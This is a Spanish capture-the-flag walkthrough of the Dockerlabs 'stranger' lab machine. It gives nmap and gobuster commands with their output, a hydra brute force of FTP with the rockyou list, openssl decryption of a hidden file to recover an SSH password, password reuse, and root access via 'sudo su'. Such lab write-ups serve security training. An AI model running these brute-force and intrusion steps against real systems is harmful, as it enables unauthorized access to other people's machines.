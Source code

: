 # stranger

Máquina "stranger" de [Dockerlabs](https://dockerlabs.es)

Autor: kaikoperez

Dificultad: Medio

![stranger](./images/stranger/img/stranger.png)

## INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 10000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 31 18:29:34 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 10000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-31 18:29:34 -03 for 16s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:af:01:77:e8:fc:a4:95:85:6b:5c:9c:c7:c1:d3:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEuXjgTSlgC05a3pDvwBTDm3FiWRowMhCqGep4r5wa2QhSJr74w8l+svyfNNnT22bALki5ONkb4o0g4MWIHkQ+Q=
|   256 36:7e:d3:25:fa:59:38:8f:2e:21:f9:f0:28:a4:7e:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOunkftwL6CnjglFfQDcP0NcMIWrGWkbH2iC83ms8jSl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: welcome
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: my; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 31 18:29:50 2024 -- 1 IP address (1 host up) scanned in 16.37 seconds
```

Como vemos están abiertos los puertos `21,22,80`, en el cual corren `ftp,ssh,apache` y como vemos ftp no tiene habilitado el login anonimo, por lo que no lo utilizaremos por ahora.

**PUERTO 80:**

![80](./images/stranger/img/80.png)

Tenemos un posible usuario: "mwheeler"

Como no se encuentra nada más, haremos fuzzing web con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 231]
/strange              (Status: 301) [Size: 310] [--> http://172.17.0.2/strange/]
Progress: 46146 / 882244 (5.23%)
===============================================================
Finished
===============================================================
```

Como vemos hay una carpeta strange, pero si entramos no hay nada interesante, por lo que haremos fuzzing pero dentro de la carpeta:

```css
gobuster dir -u http://172.17.0.2/strange -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/strange
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 3040]
/.html                (Status: 403) [Size: 275]
/private.txt          (Status: 200) [Size: 64]
/secret.html          (Status: 200) [Size: 172]
/.html                (Status: 403) [Size: 275]
Progress: 203557 / 882244 (23.07%)
===============================================================
Finished
===============================================================
```

Como vemos hay un `secret.html` que si entramos desde el navegador tiene un mensaje:

![secret](./images/stranger/img/secret.png)

sabiendo eso podemos usar hydra al puerto 21 de ftp con el usuario admin y wordlist la rockyou:

```css
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2
```

![hydra](./images/stranger/img/hydra.png)

Ahora que tenemos un usuario nos conectamos usando `ftp 172.17.0.2` y ponemos el usuario y contraseña.

Ahora si ejecutamos un `ls` vemos un archivo llamado "private\_key.pem", por lo que nos lo guardamos en nuestra maquina atacante usando `get private_key.pem`. Salimos del ftp y nos descargamos el archivo llamado "private.txt" que encontramos antes en `/strange/private.txt`, el cual si lo miramos, está en un formato ilegible. Ahora como tenemos el .pem podemos ejecutar lo siguiente y ver si es un formato RSA para poder descifrarlo:

```css
openssl rsautl -decrypt -inkey private_key.pem -in private.txt -out output.txt
```

Ahora si leemos el archivo de la salida, tenemos una posible contraseña: "demogorgon"

Ahora nos conectamos por el ssh usando el usuario "mwheeler" y la contraseña "demogorgon".

## ESCALADA DE PRIVILEGIOS

#### mwheeler

Si leemos el archivo `/etc/passwd` vemos que también hay un usuario admin como en el ftp, por lo que podemos probar si la contraseña "banana" también sirve. `su admin`

#### admin

Siendo el usuario admin, vemos que usamos sh, entonces para estar más comodos ejecutaremos `bash`. Ahora si ejecutamos `sudo -l` y ponemos la contraseña veremos que podemos ejecutar todo como root, asi que solo ponemos `sudo su` y listo, _somos root_.

![root](./images/stranger/img/root.png)

Gracias por leer.
